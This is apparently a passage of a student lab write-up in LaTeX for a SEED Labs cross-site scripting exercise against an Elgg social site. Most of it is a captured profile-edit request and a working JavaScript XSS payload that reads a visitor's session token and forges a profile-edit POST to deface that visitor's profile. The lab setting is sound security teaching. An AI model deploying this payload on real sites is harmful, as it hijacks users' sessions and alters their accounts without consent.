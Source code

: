 \documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
 __elgg_token=-HmBHBxcaADQibHk6G3bCQ&__elgg_ts=1707413678&name=Samy&description=&accesslevel[description]=1&briefdescription=1905001&accesslevel[briefdescription]=1&location=&accesslevel[location]=1&interests=&accesslevel[interests]=1&skills=&accesslevel[skills]=1&contactemail=&accesslevel[contactemail]=1&phone=&accesslevel[phone]=1&mobile=&accesslevel[mobile]=1&website=&accesslevel[website]=1&twitter=&accesslevel[twitter]=1&guid=59
\end{verbatim}

So, basically content is the concatenated form of all the attributes. We can use this directly in the following way:

\begin{verbatim}
<script type="text/javascript">
    window.onload = function () {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var userName = elgg.session.user.username;
        var guid = elgg.session.user.guid;
        var sendurl = '/action/profile/edit';
        var content = `__elgg_token=${token}&__elgg_ts=${ts}&name=${userName}&description=1905001&accesslevel[description]=1&briefdescription=I am Samy, the worm. Catch me if you can.&accesslevel[briefdescription]=1&location=Moscow&accesslevel[location]=1&interests=Hacking&accesslevel[interests]=1&skills=Cyber Security&accesslevel[skills]=1&contactemail=abc@yahoo.com&accesslevel[contactemail]=1&phone=9786546&accesslevel[phone]=1&mobile=01234567898&accesslevel[mobile]=1&website=www.clickme.com&accesslevel[website]=1&twitter=elonmusk&accesslevel[twitter]=1&guid=${guid}`;

        if (guid != 59) {
            var Ajax = null;
            Ajax = new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Host", "www.seed-server.com");
            Ajax.setRequestHeader("Content-Type",
                "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
\end{verbatim}

This yields the expected results. However, this looks a bit clumsy.
There is an elegant solution, by using form data. We end up using that.
\end{document}
